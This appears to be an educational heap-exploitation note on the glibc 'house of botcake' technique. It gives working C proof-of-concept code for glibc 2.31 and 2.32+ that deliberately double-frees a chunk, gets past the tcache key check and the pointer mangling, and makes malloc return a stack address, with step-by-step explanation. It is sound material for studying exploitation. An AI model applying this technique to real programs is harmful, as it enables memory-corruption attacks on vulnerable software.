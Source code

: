 <details>
<summary><strong>Description</strong></summary>
<p>

A new [patch](https://sourceware.org/git/?p=glibc.git;a=commit;h=bcdaad21d4635931d1bd3b54a7894276925d081d) to restrict tcache double free...
> **TL;DR**:  when the chunk goes to tcache, chunk's `bk ptr` will be assign to key (point to tcache_per_thread (old libc) or random (new libc)) value. Whenever the program try to free a chunk, it will check if that chunk has key value assigned, if yes -> probably a double free...

house of botcake core mindset is to find a way modify key value, bypass this restriction...

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://4xura.com/pwn/house-of-botcake/
- https://github.com/shellphish/how2heap/blob/master/glibc_2.39/house_of_botcake.c

</p>
</details>

### For `2.32+` versions

<details>
<summary><strong>POC</strong></summary>
<p>

> I compiled this with glibc `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long stack_var[4], *x[7];

    for(int i = 0; i < 7; i++) x[i] = malloc(0x100);
    long *prev = malloc(0x100);
    long *a = malloc(0x100); // chunk for later cosolidation
    malloc(0x10); // padding chunk, prevent consolidation

    // cause chunk overlapping
    for(int i = 0; i < 7; i++) free(x[i]); // fill tcache

    free(a); // free victim chunk, goes to unsortedbin
    free(prev); // free previous chunk, make it consolidate with victim chunk
    malloc(0x100); // add the victim chunk to tcache list by taking one out from it and free victim again

    /*VULNERABILITY*/
    free(a);// a is already freed
    /*VULNERABILITY*/

    long *unsorted = malloc(0x100 + 0x100 + 0x10);
    unsorted[0x110/8] = (long)stack_var ^ ((long)a >> 12); // mangle the pointer since glibc 2.32

    a = malloc(0x100); // get back victim chunk from tcache -> this will put target to tcache top
    long *target = malloc(0x100); // malloc arbitrary address
    target[0] = 0xcafebabe;

    printf("target @ %p == stack_var @ %p\n", target, stack_var);
    printf("stack_var's value: 0x%lx\n", stack_var[0]);
    return 0;
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

the idea is simple, first we set up heap layout then free several chunks, fill the tcache and one goes to unsortedbin (`a` - victim chunk):

![](pics/img00.png)

as we can see, the victim chunk's `bk ptr` point to `main_arena`...

then we free the `prev` chunk, trigger consolidation of `prev` and `a`:

![](pics/img01.png)

voila, the `a`'s `bk ptr` is still there...

then we `malloc(0x100)` to take one chunk out from the tcache, make available space (in tcache) for the victim chunk...

and we free chunk `a` again, **remember that chunk `a` was freed** (so there must be double free primitive here)

now chunk `a` must goes to tcache, the program will compare chunk `a` key value (current is pointing to `main_arena`) with thread tcache key (random) value...

it probably pass the check (since they are different) so chunk `a` will goes to tcache...

![](pics/img02.png)

now chunk `a` exists in both tcache and unsortedbin, we can fengshui to make overlapping chunk...

</p>
</details>

### For `2.31` version

<details>
<summary><strong>POC</strong></summary>
<p>

> Compiled with glibc `2.31`

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long stack_var[4], *x[7];

    for(int i = 0; i < 7; i++) x[i] = malloc(0x100);
    long *prev = malloc(0x100);
    long *a = malloc(0x100); // chunk for later cosolidation
    malloc(0x10); // padding chunk, prevent consolidation

    // cause chunk overlapping
    for(int i = 0; i < 7; i++) free(x[i]); // fill tcache

    free(a); // free victim chunk, goes to unsortedbin
    free(prev); // free previous chunk, make it consolidate with victim chunk
    malloc(0x100); // add the victim chunk to tcache list by taking one out from it and free victim again

    /*VULNERABILITY*/
    free(a);// a is already freed
    /*VULNERABILITY*/

    long *unsorted = malloc(0x100 + 0x100 + 0x10);
    unsorted[0x110/8] = (long)stack_var; // no mangled pointer in glibc 2.31

    a = malloc(0x100); // get back victim chunk from tcache -> this will put target to tcache top
    long *target = malloc(0x100); // malloc arbitrary address
    target[0] = 0xcafebabe;

    printf("target @ %p == stack_var @ %p\n", target, stack_var);
    printf("stack_var's value: 0x%lx\n", stack_var[0]);
    return 0;
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

The idea stay the same, just need to modify the POC a little since there is no mangled ptr mechanics in glibc `2.31`...

</p>
</details>


